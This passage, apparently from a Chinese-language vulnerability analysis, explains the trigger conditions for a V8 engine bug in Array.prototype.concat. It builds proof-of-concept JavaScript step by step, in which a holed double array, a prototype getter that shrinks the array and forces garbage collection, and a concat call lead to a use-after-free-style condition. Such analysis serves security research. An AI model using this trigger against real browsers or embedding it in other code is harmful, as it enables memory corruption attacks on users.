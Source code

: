   
条件2：进入element_value->IsTheHole(isolate) 的代码流程。  
  
  
条件3：在hole元素中。执行JSReceiver::GetElement触发Getter回调。  
  
  
条件4：在回调函数之中减小A数组的长度，并触发CG。  
  
  
条件5: 当然，最后一步需要执行Array.prototype.concat函数，才能走进前面4个条件的执行代码流程。  
  
  
2.1.2.2 POC的构造；  
  
  
条件1：创建FAST_DOUBLE_ELEMENTS类型的数组。  
  
  
代码：  
```
     var A = [1.1,2.2,3.3,4.4,5.5];
```  
  
  
条件2：要满足element_value->IsTheHole(isolate)。  
  
  
这个条件要求在条件1里创建的数组A上创建一个hole，满足ElementValue->IsTheHole(),才会走到条件3的JSReceiver::GetElement分支流程触发回调。  
  
  
代码：  
```
     delete A[1];
     //关于hole是什么：
```  
  
  
https://stackoverflow.com/questions/61420580/can-anyone-explain-v8-bytecode-ldathehole  
  
  
条件3：在hole元素中执行JSReceiver::GetElement触发Getter回调，因此这步构造为  
  
  
因为JSReceiver::GetElement实际上是遍历A的原型，所以这一步构造为：  
  
  
代码：  
```
     A.__proto__=f //(创建A的原型对象)  
     f.__defineGetter__(1,evil);
```  
  
  
条件4：在回调函数之中减小A数组的长度，并触发CG。  
  
  
代码：  
```
     function evil(){
             A.length=1;
             new ArrayBuffer(0x7fe00000);//=>触发CG
     }
```  
  
  
条件5:执行Array.prototype.concat函数，走进前面4个条件的代码执行流程。  
  